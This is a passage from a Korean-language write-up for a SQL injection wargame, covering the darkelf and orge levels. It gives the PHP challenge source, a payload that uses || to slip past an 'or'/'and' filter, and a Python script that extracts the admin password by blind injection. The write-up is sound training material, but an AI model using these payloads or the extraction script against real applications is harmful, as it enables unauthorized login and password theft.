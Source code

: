 ```sql
select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'
-> select id from prob_darkelf where id='guest' and pw=''|| id='admin'-- -'
payload = ' || id='admin'-- -
```
<br>

## Orge
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge"); 
  highlight_file(__FILE__); 
?>
```

### exploit
Orc 문제와 비슷하지만 **or**과 **and**를 필터링하는 점이 다르다.<br>
Orc 문제를 풀때 사용했던 파이썬 코드에 or, and 필터링 우회를 적용하면 문제를 해결할 수 있다.

```python
import requests

url = 'https://los.rubiya.kr/chall/orge_bad2f25db233a7542be75844e314e9f3.php'
cookie = {'PHPSESSID': 'Cookie 값'}

for i in range(20):
  param = {'pw': f"' || length(pw)={i}#"}
  res = requests.get(url, params=param, cookies=cookie)
  if 'Hello admin' in res.text:
    print(i)

length = 8
password = ''
for len in range(1, length+1):
  for pw in range(ord('0'), ord('z')):
    query = {'pw': f"' || substr(pw, {str(len)}, 1)='{chr(pw)}'#"}
    res = requests.get(url, params=query, cookies=cookie)
    if 'Hello admin' in res.text:
      password = password + chr(pw)
      print(f'{len} : {chr(pw)}')
      break

print(password)
```
이 코드를 사용하면 pw를 알 수 있지만 Orc 문제와 똑같이 소문자로 변환하여 입력해야 문제를 해결할 수 있다.
<br><br>
